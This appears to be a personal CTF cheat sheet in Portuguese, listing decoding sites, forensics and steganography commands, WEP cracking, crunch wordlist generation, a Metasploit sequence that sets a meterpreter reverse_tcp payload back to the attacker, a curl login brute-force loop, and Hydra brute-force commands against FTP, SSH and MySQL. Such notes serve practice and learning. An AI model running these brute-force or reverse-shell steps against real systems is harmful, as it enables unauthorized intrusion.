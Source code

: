 # CTFHelp

	PARA CTFs

	CRYPTOGRAFIA:
	cifra | base64 -d
	cifra | base32 -d
	00000000: cifra | xxd -r -p
    https://cryptii.com/
    https://cryptii.com/pipes/hex-decoder
	http://endoffile.umforum.net/h4-identifcador-hash - identificar uma hash
	https://md5hashing.net/  - hash md5
	https://hashtoolkit.com/
	https://morsecode.scphillips.com/translator.html - morse
	HASH MD5: https://hashkiller.co.uk/
	QR-CODE: https://webqr.com/
	https://www.dcode.fr/tools-list
        https://codebeautify.org/
	https://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Vigen%C3%A8re_square_shading.svg/320px-Vigen%C3%A8re_square_shading.svg.png	

	REVERSE ENGENNIRING:
	ltrace para reverse
	gdb program -> disas main
	
	FORENSE:
	https://incoherency.co.uk/image-steganography/ - imagem sobre posta
	http://exif.regex.info/exif.cgi  - exif em fotos ou exif imagem
	steghide extract -sf img.jpg
        foremost -i arquivo
        data-text-file contains "flag"->pcap foremost -d jpeg -i arquivo.pcap
	https://futureboy.us/stegano/decinput.html
	hexdump -C imagem.jpg
	strings imagem.jpg
	https://md5decrypt.net/en/  

	WEB:
	ERRO DE FLASH: http://www.showmycode.com/
	/robots.txt
        /checklogin.php.bkp
        inspecionar elemento - copy url login=true - curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag"
        while read pass;do echo $pass;curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag" | grep shellter{;done < /usr/share/wordlists/

	aircrack-ng arquivo.pcap - para pegar o macaddress
	airdecap-ng -w macaddress arquivo.pcap - WEP key em hexadecimal
	wireshark arquivor-dec.pcap
	data-text-lines contains "post"
	tcp stream

	https://diegoandrade.com.br/ferramentas.html
	
	SENHAS:
	crunch [size min] [size max] caracteres
	crunch 8 8 abcdefghijk1234567 -t(template) [% - digito][@ - caracter][nome fixo] -o(saida) dicionario.txt
	
	METASPLOIT:
	db_status
	db_nmap
	search falha
	use /../payload
	show options
	set LHOST ipalvo
	set LPORT porta
	set payload /windows/meterpreter/reverse_tcp
	show options
	set LHOST ipinvasor
	exploit
	sessions -l
	sessions -i [num]
	?
	
	Hydra:
	hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ftp
	hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ssh
	hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 mysql
	hydra –l admin -P /tmp/wordlist.txt 192.168.0.101 ftp
